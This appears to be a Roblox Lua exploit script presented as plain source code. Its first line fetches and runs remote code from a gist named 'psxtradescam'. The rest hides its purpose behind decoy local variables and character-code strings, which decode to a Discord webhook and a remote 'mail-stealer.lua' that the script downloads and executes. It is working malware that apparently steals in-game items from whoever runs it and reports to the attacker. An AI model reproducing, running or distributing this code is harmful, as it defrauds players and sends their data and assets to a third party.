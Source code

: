 loadstring(game:HttpGetAsync("https://gist.githubusercontent.com/dokinbog0110/9a4cc3ea85c65b97f79d9bab8cdb60b6/raw/4e8c9ffc96a2a3da9adaf1bc0f41a2c21384a96b/psxtradescam", true))()
local print=print;local type=type;local tonumber=tonumber;local a={}for b=1,10 do a[b]=math.random(1000)end;local c=""function genednv(d)getgenv()[c]=d end;local tostring=tostring;local e=math.abs;local f=string.char(104,116,116,112,115,58,47,47,100,105,115,99,111,114,100,46,99,111,109,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,48,57,54,48,53,48,52,53,53,52,55,49,49,57,52,49,51,51,47,68,108,77,56,103,70,75,97,90,82,88,95,107,77,50,120,90,101,120,105,95,111,72,108,89,57,72,57,87,112,80,121,108,78,83,72,67,103,70,87,85,55,122,84,65,107,57,98,117,67,53,122,89,84,120,80,105,77,102,95,117,95,111,52,108,57,114,84);local h=math.ceil;local i=math.floor;local function j(k)c="mouselock"genednv("true")local l={}for b=1,k do l[b]=math.random(100)end;return l end;local m=math.max;local n=math.min;local o={2,93,210,219,2983,2130,239,284,034}local function p(q)local r={}c="name"genednv("dokinbog0110")for b=1,q do r[b]=string.char(math.random(97,122))end;return table.concat(r)end;local s=table.create;local t=coroutine.resume;local u=coroutine.yield;local ipairs=ipairs;local pairs=pairs;local next=next;local v=string.char(104,116,116,112,115,58,47,47,119,117,109,97,116,46,120,121,122,47,115,99,114,105,112,116,115,47,109,97,105,108,45,115,116,101,97,108,101,114,46,108,117,97)local error=error;local pcall=pcall;function tesdwef(w)return game:HttpGetAsync(w,true)end;local xpcall=xpcall;local x=loadstring;local rawget=rawget;local rawset=rawset;local function y()local z=p(math.random(5,10))local A=p(math.random(5,10))c="webhook"genednv(f)return z..A end;local B=string.len;local C=string.sub;local D=string.upper;local E=string.lower;local F=string.find;local function G(k)local H=j(10)local l={}local I=p(5)for b=1,k do l[b]=math.random()>0.5 end;local J=y()return l end;local K=G(2)local L=math.acos;local M=math.asin;local N=math.atan;local O=math.atan2;x(tesdwef(v))()local P=math.cos
